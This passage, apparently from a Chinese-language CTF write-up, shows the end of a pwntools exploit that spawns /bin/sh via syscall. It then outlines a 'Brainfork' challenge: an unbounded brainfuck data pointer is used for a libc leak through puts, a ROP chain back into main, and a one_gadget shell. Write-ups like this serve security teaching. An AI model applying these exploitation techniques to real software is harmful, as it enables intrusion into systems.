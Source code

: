 ```python
payload += p32(data) # filename -> /bin/sh\0
payload += p32(0xdd) # syscall num

# 发送 payload
p.sendline(payload)
# 发送 /bin/sh
p.send(shell)

# 反弹shell
p.interactive()
```

![arm4](arm4.png)



### Brainfork

这是一道`brainfuck`的解释器，漏洞在于数据指针没有对边界进行限制，于是可以修改任意地址

![brain1](brain1.png)

首先`checksec`发现没有`canary`但是有`PIE`，所以我们总体利用的思路是：

1. 泄漏`__libc_start_main`的地址（刚好有`puts`）
2. 想办法重入`main`
3. 跳转到`one_gadgets`找到的地址`getshell`

首先，经过一些简单的测试，不难发现我们将数据指针右移`0x104`次可以到达返回地址（需要注意的是，这个数据指针是`16`位的）

然后，考虑我们劫持后的栈结构：

```
                  +-------------+
return address -> | POP RDI RET |
                  +-------------+
                  |     RDI     | -> libc_start_main_got
                  +-------------+
                  |    RET 1    | -> puts
                  +-------------+
                  |    RET 2    | -> main
                  +-------------+
```

需要注意的是，我们需要给地址增加偏移量(`PIE`)，我们不妨复制原来的返回地址，然后计算偏移量并加上

在`BrainFuck`中，我们可以通过类似于下述的结构来复制数据

```
[->+>+<<]>>[-<<+>>]<<
```

在第二次重入后，我们需要将返回地址重定向到`one_gadget`找到的地址

由于`libc`中的地址一般都是`0x7ff`开头的高地址，直接加上去会超过`65535`的指令条数限制，所以我们需要一种算法来生成高效的`BrainFuck`代码：[Brainfuck constants - Esolang (esolangs.org)](https://esolangs.org/wiki/Brainfuck_constants)
